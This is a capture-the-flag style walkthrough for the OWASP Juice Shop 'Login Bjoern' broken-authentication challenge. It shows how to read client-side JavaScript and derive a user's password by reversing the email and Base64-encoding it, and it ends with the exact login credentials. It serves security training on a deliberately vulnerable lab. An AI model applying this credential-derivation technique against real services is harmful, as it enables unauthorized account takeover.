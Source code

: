 # Login Bjoern (Broken Authentication)

## Overview
This challenge demonstrates a **Broken Authentication** vulnerability in the OWASP Juice Shop application.  
By analyzing client-side JavaScript, an attacker can reconstruct a user’s password and gain unauthorized access.  
The vulnerability arises from encoding and authentication logic being exposed on the frontend.

---

## Step-by-Step Solution

### 1. Identify the Target User
Navigate to:
/#/administration
Locate the user:

bjoern.kimminich@gmail.com

---

### 2. Inspect JavaScript Code
Open **Developer Tools** → **Sources** → `main-es.js`  
Click the **“}”** (Pretty Print) icon to format the code.

---

### 3. Analyze Authentication Logic
Search for the following terms inside `main-es.js`:
oauth
password
login
email
split
reverse
join

You’ll find JavaScript code that manipulates user credentials using methods like `split()`, `reverse()`, and `join()`, and then encodes them using `btoa()`.

---

### 4. Understand Key JavaScript Functions
- `btoa()` → Encodes a string in Base64.  
  Example:
  ```javascript
  window.btoa("hello") // Output: aGVsbG8=

atob() → Decodes a Base64-encoded string.
Example:
window.atob("aGVsbG8=") // Output: hello
---
### 5. In the browser console, execute:
"bjoern.kimminich@gmail.com".split("")

This splits the email into an array of characters.

Now reverse it:

"bjoern.kimminich@gmail.com".split("").reverse()
Join it back into a string:

"bjoern.kimminich@gmail.com".split("").reverse().join("")
Output:
moc.liamg@hcinimmik.nreojb

---
### 6. Use the btoa() function:

window.btoa("bjoern.kimminich@gmail.com".split("").reverse().join(""))

Output:

bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=
---
### 7. Log in as Bjoern Kimminich

Use the following credentials on the login page:

Email: bjoern.kimminich@gmail.com
Password: bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=

Login successfully — the Broken Authentication challenge is solved.